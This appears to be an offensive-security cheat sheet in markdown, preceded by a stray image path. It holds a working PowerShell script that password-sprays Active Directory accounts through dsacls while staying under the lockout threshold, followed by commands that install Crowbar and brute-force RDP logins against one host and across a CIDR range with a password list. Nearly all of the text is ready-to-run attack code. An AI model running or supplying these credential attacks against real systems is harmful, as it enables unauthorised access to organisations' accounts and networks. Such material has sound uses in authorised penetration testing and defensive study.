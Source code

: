 ### Powershell - Script to perform a "dirty spray" using DSACLS
```powershell
$fqdn = ((cmd /c set u)[-3] -split "=")[-1]
$suffix = "local"
$pdc = ((nltest.exe /dcname:$fqdn) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"
#### (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$fqdn,dc=$suffix" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=$fqdn,dc=$suffix" /user:$_@$fqdn.$suffix /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```


### RDP - Crowbar - Brute-Force
```bash
sudo apt install -y nmap openvpn freerdp2-x11 tigervnc-viewer impacket- impacket--pip
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

#### RDP - Crowbar - trying admin account, Single IP, User, Passwordlist
```bash
user="$user"
domain=$fqdn
IP="$VMIP"
wordlist=".\knownpasswords.txt"
./crowbar.py -b rdp -s $IP -u $user -C $wordlist
```

#### RDP - Crowbar - Domain-Specific RDP Attack against CIDR, scanning first for RDP then trying our list with mellonaut
```bash
user="mellonaut"
domain=$fqdn
cidr="$cidr"
wordlist=".\knownpasswords.txt"
./crowbar.py -b rdp -s $cidr -u $user@$fqdn -C $wordlist
```
